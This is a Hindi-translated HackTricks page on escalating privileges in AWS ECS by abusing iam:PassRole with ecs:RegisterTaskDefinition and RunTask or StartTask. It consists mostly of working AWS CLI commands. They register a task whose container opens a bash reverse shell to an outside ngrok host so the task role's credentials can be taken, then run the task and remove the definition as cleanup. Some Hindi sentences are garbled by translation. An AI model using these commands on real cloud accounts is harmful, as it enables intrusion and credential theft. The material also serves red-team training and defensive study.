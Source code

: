 # AWS - ECS विशेषाधिकार बढ़ाना

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary></details>

## ECS

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

ECS में `iam:PassRole`, `ecs:RegisterTaskDefinition` और `ecs:RunTask` अनुमति का दुरुपयोग करने वाला एक हमलाविशेषज्ञ एक **नए टास्क परिभाषा** बना सकता है जिसमें एक **हानिकारक कंटेनर** होता है जो मेटाडेटा क्रेडेंशियल्स को चुरा लेता है और **इसे चलाता है**।
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**संभावित प्रभाव:** एक विभिन्न ECS भूमिका में सीधा प्रिवेस्क।

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

पिछले उदाहरण की तरह एक हमलावर **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** अनुमतियों का दुरुपयोग करने वाला एक हमलावर ECS में एक **नया टास्क परिभाषा** बना सकता है जिसमें एक **हानिकारक कंटेनर** होता है जो मेटाडेटा क्रेडेंशियल्स को चुरा लेता है और **इसे चलाता है**।\
हालांकि, इस मामले में, एक कंटेनर इंस्टेंस को चालू करने के लिए जो कि दुरुपयोगी टास्क परिभाषा को चलाने के लिए आवश्यक है।
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
```